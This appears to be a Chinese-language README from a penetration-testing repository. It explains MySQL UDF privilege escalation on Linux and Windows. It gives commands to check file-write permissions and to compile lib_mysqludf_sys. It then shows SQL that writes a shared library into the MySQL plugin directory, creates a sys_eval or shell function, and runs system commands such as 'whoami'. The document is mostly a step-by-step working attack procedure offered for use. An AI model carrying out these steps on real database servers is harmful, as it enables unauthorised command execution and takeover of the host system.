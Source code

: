 # MySQL UDF 提权

> 尝试UDF提权之前，先确保MySQL有读写文件的权限

```SQL
SHOW VARIABLES LIKE 'sec%';
# or
SHOW VARIABLES LIKE 'secure_file_priv';
```
如果查询到 secure_file_priv 的值为NULL，则不可以读写文件

### Linux

> https://github.com/mysqludf/lib_mysqludf_sys

编译语句

> gcc -DMYSQL_DYNAMIC_PLUGIN -fPIC -Wall -I/usr/include/mysql -I. -shared lib_mysqludf_sys.c -o lib_mysqludf_sys.so

udf.so.txt 是自己的编译的

udf2.so.txt 来自网友编译

> 使用方法

首先通过SQL语句查询到MySQL的plugin位置，如：/usr/lib64/mysql/plugin/

```SQL
SHOW VARIABLES LIKE '%plugin%';
#或者
SELECT @@plugin_dir;
```

然后写UDF到插件目录、创建函数、执行命令

```SQL

SELECT unhex(' [udf.so.txt]|[udf2.so.txt] ') INTO DUMPFILE "/usr/lib64/mysql/plugin/udf.so"; #写入udf.so

DROP FUNCTION sys_eval; # 如果存在函数先drop掉

CREATE FUNCTION sys_eval RETURNS string SONAME 'udf.so'; # 创建函数

SELECT sys_eval ('whoami'); # 执行命令

```


### Windows

方法与上面类似，可以使用tools的UDF提权脚本，或者上传dll文件，命令执行函数名为 shell

使用方法：

```SQL

SELECT shell('cmd','whoami');

```
